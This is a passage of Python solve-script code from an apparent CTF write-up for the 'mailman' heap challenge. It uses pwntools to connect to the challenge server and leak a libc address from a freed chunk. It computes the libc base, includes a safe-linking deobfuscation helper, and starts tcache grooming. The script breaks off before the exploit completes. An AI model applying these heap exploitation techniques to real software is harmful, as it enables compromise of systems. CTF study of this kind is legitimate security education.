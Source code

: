 ```py
# pwninit’s stub conn() function. Call with `python3 solve.py LOCAL` or no args to change which.
def conn():
    if args.LOCAL:
        r = process([exe.path])
    else:
        r = remote("mailman.chal.imaginaryctf.org", 1337)

    return r

# Safelinking deobfuscation helper
def deobfuscate(val):
    mask = 0xfff << 52
    while mask:
        v = val & mask
        val ^= (v >> 12)
        mask >>= 12
    return val


def main():
    global heap
    r = conn()

    def alloc(idx, size, data):
        print("ALLOCATING: ", idx)
        r.sendlineafter("> ", "1")
        r.sendlineafter("idx: ", str(idx))
        r.sendlineafter("size: ", str(size))
        r.sendlineafter("content: ", data)

    def free(idx):
        print("FREEING: ", idx)
        r.sendlineafter("> ", "2")
        r.sendlineafter("idx: ", str(idx))

    def show(idx):
        print("SHOWING: ", idx)
        r.sendlineafter("> ", "3")
        r.sendlineafter("idx: ", str(idx))
        return r.recvline()

    # Make two large chunks
    alloc(0, 1350, 'A')
    alloc(1, 1350, 'A')
    # Free the first one so bk = main_arena in libc
    free(0)
    resp = show(0)
    # parse the libc address in little-endian
    libcaddr = int(resp[5::-1].hex(),16)
    # Use offsets found in gdb to compute libc base
    libc.address = libcaddr - (0x7f7c10419ce0 - 0x7f7c10200000)
    print("Libc Leak: ", hex(libc.address))
    free(1)

    #Grab some blocks
    alloc(0,128,'A')
    alloc(1,128,'A')
    alloc(2,128,'A') #excess
    alloc(3,128,'A') #excess
    # Place them into the tcache
    free(0)
    free(1)
    free(2)
```